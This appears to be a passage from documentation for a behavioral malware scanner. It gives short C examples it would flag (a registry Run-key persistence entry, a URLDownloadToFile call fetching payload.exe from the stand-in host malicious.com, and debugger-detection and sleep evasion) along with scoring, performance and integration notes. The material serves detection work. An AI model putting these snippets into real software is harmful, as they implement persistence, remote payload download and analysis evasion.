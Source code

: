 ### 2. **Persistence via Registry**
```c
// This would be detected as persistence
RegCreateKey(HKEY_LOCAL_MACHINE, "Software\\Microsoft\\Windows\\CurrentVersion\\Run", &hKey);
RegSetValue(hKey, "Malware", REG_SZ, "C:\\malware.exe", strlen("C:\\malware.exe"));
```
**Detection:** Persistence - registry modification (10 points)

### 3. **Network Communication**
```c
// This would be detected as network communication
URLDownloadToFile(NULL, "http://malicious.com/payload.exe", "C:\\temp\\payload.exe", 0, NULL);
```
**Detection:** Network communication - HTTP requests (8 points)

### 4. **Evasion Techniques**
```c
// This would be detected as evasion
if (IsDebuggerPresent()) {
    // Anti-debugging code
}
Sleep(5000); // Anti-analysis delay
```
**Detection:** Evasion techniques - debugger detection, sleep operations (24 points)

## Performance Considerations

### Caching
- Behavioral analysis results are cached for 1 hour
- Reduces repeated analysis of the same files
- Improves scan performance

### Parallel Processing
- Multiple files can be analyzed simultaneously
- Configurable number of worker threads
- Timeout protection for long-running analysis

### File Size Limits
- Maximum file size: 100MB (configurable)
- Larger files may be skipped or analyzed partially
- Prevents performance issues with very large files

## Integration with Existing Systems

### Scan Function Integration
```python
# Behavioral analysis is automatically integrated into the scan function
behavior_results = analyze_advanced_behavior(file_path)
context_analysis = analyze_behavioral_context(file_path, behavior_results)

if context_analysis["adjusted_score"] >= 40:
    # Flag as suspicious
```
